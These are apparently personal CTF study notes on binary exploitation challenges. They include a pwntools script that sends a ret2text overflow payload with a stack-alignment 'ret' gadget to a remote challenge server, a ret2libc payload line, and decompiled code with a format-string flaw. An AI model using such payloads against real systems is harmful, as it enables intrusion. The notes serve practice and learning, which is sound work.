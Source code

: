 Question: Why 'ret' command is needed? 

payload='A'*(0xc+8)+p64(pop_rdi_ret)+p64(binsh_addr)+p64(system_addr)





## pwn08: 64-ret2text-stack balance [TODO]

https://blog.csdn.net/qq_41560595/article/details/112161243

checksec: NX、amd-64-little



```python
from pwn import *

r=remote("pwn.challenge.ctf.show",28105)
# 0x7fffffffde38 return addr of welcome
elf=ELF("./pwn8")
backdoor=elf.sym["ctfshow"]
ret=0x00000000004004fe  # the addr of 'ret'
payload="A"*(0x80+8)+p64(ret)+p64(backdoor)
r.sendline(payload)
r.interactive()

```

Q: Why  `payload="A"*(0x80+8)+p64(backdoor)`  doesn't work?

It works well at 32 bit program but crashed in 64 bit program. But there is a **stack-balance(堆栈平衡)** principle in 64-bit program, **16-byte-alignment(十六字节对齐)** is needed.



Q: How to get the addr of  `ret=0x00000000004004fe` ?









## pwn10



```c
// bad sp value at call has been detected, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp-14h] [ebp-80h]
  int v5; // [esp-10h] [ebp-7Ch]
  int v6; // [esp-Ch] [ebp-78h]
  int v7; // [esp-8h] [ebp-74h]
  int v8; // [esp-4h] [ebp-70h]
  char format[100]; // [esp+0h] [ebp-6Ch] BYREF
  int *p_argc; // [esp+64h] [ebp-8h]

  p_argc = &argc;
  setvbuf(stdin, 0, 1, 0);
  setvbuf(stdout, 0, 2, 0);
  printf("try pwn me?");
  ((void (__stdcall *)(const char *, char *, int, int, int, int, int))__isoc99_scanf)("%s", format, v4, v5, v6, v7, v8);
  printf(format);
  if ( num == 16 )
    system("cat flag");
  else
    puts(aYouMayNeedToKe);
  return 0;
```